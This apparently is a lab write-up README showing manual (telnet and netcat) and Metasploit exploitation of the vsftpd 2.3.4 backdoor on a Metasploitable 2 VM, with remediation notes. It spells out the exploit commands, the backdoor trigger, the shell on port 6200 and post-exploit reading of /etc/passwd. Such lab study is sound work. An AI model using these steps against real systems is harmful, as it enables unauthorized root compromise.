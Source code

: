 # Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```

![Ping success](screenshots/meta-ip.png)

---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```

![Ping success](screenshots/ping-kali.png)

---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

![Ping success](screenshots/nmap-scan.png)

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```

![Ping success](screenshots/closed-by-foreign-host.png)

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](screenshots/root-access-change.png)

---

## Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---
![Ping success](screenshots/msf-1.png)

### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Ping success](screenshots/msf-root-access.png)

---

### 3. Set Target Information

```bash
set RHOST [target IP]
```

![Ping success](screenshots/msf-root-access.png)

---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```

![Ping success](screenshots/msf-root-access.png)

---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](screenshots/msf-root-access.png)

---

## 🧠 Lessons Learned

### 🛡️ Impact and Remediation

This vulnerability allows for full system compromise, leading to unauthorized access to sensitive data and the ability to pivot to other systems within a network. To mitigate this, it is crucial to upgrade vsftpd to a patched version, implement proper network segmentation, and regularly patch systems.

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---
# Remediation Document

A detailed remediation document has been created to address the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523). It includes a summary of the vulnerability, affected systems, step-by-step mitigation instructions, verification procedures, and recommended ongoing security measures.

The document provides evidence of exploitation and remediation, suitable for audit purposes or knowledge sharing. It can be downloaded and reviewed here: [Full Remediation Report (DOCX)](vsftpd_Remediation_Document.docx)


## Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This lab reinforced my understanding of network reconnaissance, vulnerability exploitation, and post-exploitation techniques, proving valuable for my offensive security skill set. This was a successful offensive security lab that will be used as a portfolio project.
